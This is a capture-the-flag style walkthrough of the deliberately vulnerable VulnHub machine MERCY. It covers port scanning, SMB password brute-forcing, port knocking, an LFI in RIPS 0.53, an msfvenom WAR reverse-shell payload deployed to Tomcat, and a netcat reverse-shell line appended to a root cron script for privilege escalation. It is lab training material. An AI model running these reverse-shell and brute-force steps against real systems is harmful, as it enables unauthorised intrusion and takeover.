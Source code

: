 ```yaml
---
layout: post
title: "digitalworld.local: MERCY Walkthrough"
subtitle: "Blessed are the merciful, for they shall obtain mercy."
date: 2018-11-25 17:53:38 +0000
category: Walkthrough
tags: [VulnHub, digitalworld.local]
comments: true
image:
  feature: digitalworld.local-mercy-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/i-beg-your-pardon-excuse-me-frog-927748/
---
```


This post documents the complete walkthrough of digitalworld.local: MERCY, a boot2root [VM][1] created by [Donavan][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

The author feels bittersweet about this box. On one hand, it was a box designed as a dedication to the sufferance put through by the Offensive Security team for PWK. I thought I would pay it forward by creating a vulnerable machine too. This is not meant to be a particularly difficult machine, but is meant to bring you through a good number of enumerative steps through a variety of techniques.

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.20.130
...
PORT     STATE    SERVICE     REASON              VERSION
22/tcp   filtered ssh         port-unreach ttl 64
53/tcp   open     domain      syn-ack ttl 64      ISC BIND 9.9.5-3ubuntu0.17 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.9.5-3ubuntu0.17-Ubuntu
80/tcp   filtered http        port-unreach ttl 64
110/tcp  open     pop3        syn-ack ttl 64      Dovecot pop3d
|_pop3-capabilities: SASL UIDL CAPA STLS PIPELINING AUTH-RESP-CODE RESP-CODES TOP
|_ssl-date: TLS randomness does not represent time
139/tcp  open     netbios-ssn syn-ack ttl 64      Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp  open     imap        syn-ack ttl 64      Dovecot imapd (Ubuntu)
|_imap-capabilities: IMAP4rev1 IDLE OK listed have post-login more capabilities ENABLE Pre-login LOGINDISABLEDA0001 LITERAL+ LOGIN-REFERRALS SASL-IR STARTTLS ID
|_ssl-date: TLS randomness does not represent time
445/tcp  open     netbios-ssn syn-ack ttl 64      Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
993/tcp  open     ssl/imaps?  syn-ack ttl 64
|_ssl-date: TLS randomness does not represent time
995/tcp  open     ssl/pop3s?  syn-ack ttl 64
|_ssl-date: TLS randomness does not represent time
8080/tcp open     http        syn-ack ttl 64      Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 1 disallowed entry
|_/tryharder/tryharder
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat
```

Whoa! Samba is up. Haven't seen that in a while. Along with it, you can also see `22/tcp` and `80/tcp` filtered by the firewall. In any case, let's focus on the Apache Tomcat first since `nmap` finds the presence of a disallowed entry `/tryharder/tryharder` in `robots.txt`.

![901bdbd2.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/901bdbd2.png)

Looks like `base64` to me. Let's decode it and see what it says.

![7afb37cc.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/7afb37cc.png)

Duh?! Nothing useful at the moment.

Now, let's switch our attention to the Tomcat installation.

![5e58c8b0.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/5e58c8b0.png)

From my experience, entering the manager webapp requires authentication. I'm not even going to try that, having no information of the usernames and passwords whatsoever.

Tomcat is a shit-show. Time to go over to Samba.

### Samba 4.3.11

One can list down the services available in Samba with `smbclient` like so.

![789d6f24.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/789d6f24.png)

What do we have here? A Samba share! Woohoo. Let's see if we can mount it without credentials.

![0d0cd907.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/0d0cd907.png)

Oops! I recall `hydra` is able to crack SMB passwords online. Time to give it a shot.

I'm assuming the username is `qiu`.

![b7918310.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/b7918310.png)

That was fast!

![c26b7415.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/c26b7415.png)

Not too bad, I must say.

### Open Sesame

The `.private` directory offers some important system information as follows.

![93160038.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/93160038.png)

Well well well. Port-knocking. Let's write a port-knocking script, using `nmap` to do the deed.

<div class="filename"><span>knock.sh</span></div>

```bash
#!/bin/bash

TARGET=$1
PORTS=$2

for ports in $(tr ',' ' ' <<<"$PORTS"); do
    echo "[*] Trying sequence $ports..."
    for p in $(echo $ports | tr ',' ' '); do
        nmap -n -v0 -Pn --max-retries 0 -p $p $TARGET
    done
done
```

__Open HTTP__

![4bd8b4f1.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/4bd8b4f1.png)

__Open SSH__

![f25408df.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/f25408df.png)

With two more open ports, let's get down to business.

![f573f6ed.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/f573f6ed.png)

I'm not amused&hellip; Moving on with the exploration, I find the presence of RIPS 0.53 as follows.

![f8012b3d.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/f8012b3d.png)

According to EDB-ID [18660](https://www.exploit-db.com/exploits/18660/), RIPS 0.53 is susceptible to multiple local file inclusion (LFI) vulnerabilities. Let's check it out.

![b82d6fca.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/b82d6fca.png)

It's an LFI alright.

### Tomcat Revisit

We can expose the passwords in `tomcat-users.xml` by making use of the LFI vulnerability.

![3f5186f0.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/3f5186f0.png)

Armed with the credentials, we can now log in to the manager webapp to deploy our evil webapp, a WAR file that allows a reverse shell callback.

![133aa32a.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/133aa32a.png)

We can use `msfvenom` to generate such a WAR file like so.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -f war -o evil.war
```

By the way, we are dealing with a 32-bit Ubuntu.

![37d41566.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/37d41566.png)

I've successfully deployed the webapp.

![2c7236f3.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/2c7236f3.png)

On one hand, set up your `nc` listener. On the other hand, look for the JSP page to access in the WAR file like so.

![607da0fe.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/607da0fe.png)

To access the malicious webapp, enter the following into your browser's address bar:

```
http://192.168.20.130/evil/tudvpurwgjh.jsp
```

I humbly present a low-privilege shell.

![74e9999e.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/74e9999e.png)

Before I forget, the proof of a low-privilege shell is at `/local.txt`.

![40848530.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/40848530.png)

### Privilege Escalation

I found out that I can log in to `fluffy`'s account with the password retrieved from `tomcat-users.xml`. And during enumeration, I also found out the way to escalate privilege to `root`.

There's a script at `/home/fluffy/.private/secrets/timeclock` that will run every three minutes (under `root` privilege) to write the current date to `/var/www/html/time`. The script is world-writable.

I append the following command to the script.

```
$ echo "rm -rf /tmp/p; mknod /tmp/p p; /bin/sh 0</tmp/p | nc 192.168.20.128 5555 1>/tmp/p" >> timeclock
```

Set up another `nc` listener at `5555/tcp`. Three minutes later, I have `root` shell.

![7c7b76af.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/7c7b76af.png)

Before I forget, here's the proof that I'm `root`.

![d818319a.png](/assets/images/posts/digitalworld.local-mercy-walkthrough/d818319a.png)

:dancer:

[1]: https://www.vulnhub.com/entry/digitalworldlocal-mercy,263/
[2]: https://www.vulnhub.com/author/donavan,601/
[3]: https://www.vulnhub.com/
